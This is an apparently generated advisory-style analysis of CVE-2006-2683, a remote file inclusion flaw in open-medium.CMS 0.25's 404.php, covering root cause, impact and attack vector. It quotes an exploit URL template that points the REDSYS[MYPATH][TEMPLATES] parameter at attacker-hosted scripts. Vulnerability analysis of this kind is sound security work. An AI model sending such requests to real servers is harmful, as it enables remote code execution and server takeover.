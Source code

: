 Based on the provided content, here's an analysis of CVE-2006-2683:

**Root Cause of Vulnerability:**
The vulnerability is a Remote File Inclusion (RFI) flaw present in the `404.php` file of the open-medium.CMS version 0.25. The `404.php` script includes a file based on user-supplied input via the `REDSYS[MYPATH][TEMPLATES]` parameter without proper sanitization.

**Weaknesses/Vulnerabilities Present:**
- **Remote File Inclusion (RFI):** The application directly includes a file path provided by the user.
- **Lack of Input Sanitization:** The application does not validate or sanitize the `REDSYS[MYPATH][TEMPLATES]` parameter, allowing arbitrary file inclusion.

**Impact of Exploitation:**
- **Arbitrary Code Execution:** An attacker can include a malicious script from a remote server, which would be executed on the vulnerable server, enabling full control over the application and potentially the server.
- **Data Exposure/Modification:** Depending on the included script, an attacker can access, modify, or delete data on the server.
- **Denial of Service (DoS):** An attacker can include a resource-intensive file or a file that leads to an application crash, causing a DoS.

**Attack Vectors:**
- The attacker can send a crafted HTTP GET request to `404.php`. The request includes the vulnerable `REDSYS[MYPATH][TEMPLATES]` parameter, pointing to the attacker's malicious script.

**Required Attacker Capabilities/Position:**
- The attacker needs to be able to send HTTP requests to the vulnerable server.
- The attacker needs to have a web server hosting the malicious script to be included in the vulnerable server.
- The attacker can be a remote user, not requiring any previous access.

**Additional Information:**

- The provided exploit code highlights the specific vulnerable parameter and how to construct the malicious URL.
```
http://www.site.com/[open-mediumCMS_path]/redsys/404.php?REDSYS[MYPATH][TEMPLATES]=[evil_scripts]
```
- The exploit is verified by the Exploit Database.

This detailed information exceeds the typical CVE description, offering clear insight into the nature of the vulnerability and how to exploit it.